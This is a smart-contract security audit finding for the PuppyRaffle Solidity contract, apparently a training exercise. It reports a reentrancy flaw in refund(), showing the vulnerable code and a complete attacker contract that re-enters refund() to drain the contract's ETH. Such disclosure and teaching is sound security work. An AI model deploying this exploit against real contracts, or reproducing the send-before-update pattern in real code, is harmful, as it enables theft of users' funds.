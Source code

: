 ### [C-01] Reentrancy Vulnerability in Refund Function

**Description:**  
The `refund()` function in the PuppyRaffle contract is vulnerable to reentrancy attacks. The function sends ETH to users before updating the player's state in the array, violating the checks-effects-interactions pattern.

**Code Location:**
```solidity
function refund(uint256 playerIndex) public {
    address playerAddress = players[playerIndex];
    require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
    require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

    // Vulnerability: Sends ETH before updating state
    payable(msg.sender).sendValue(entranceFee);

    // State update happens after the external call
    players[playerIndex] = address(0);
    emit RaffleRefunded(playerAddress);
}
```

**Impact:**  
An attacker can create a malicious contract that repeatedly calls the `refund()` function when receiving ETH, allowing them to drain the entire contract balance and steal funds from legitimate users. This was proven through a successful proof of concept that drained all funds from the contract.

**Proof of Concept:**  
The attack can be executed using a malicious contract that reenters the `refund()` function:

```solidity
contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        // Enter the raffle
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        
        // Get index and trigger refund
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    // When we receive ETH, reenter the refund function
    receive() external payable {
        _stealMoney();
    }

    function _stealMoney() internal {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }
}
```
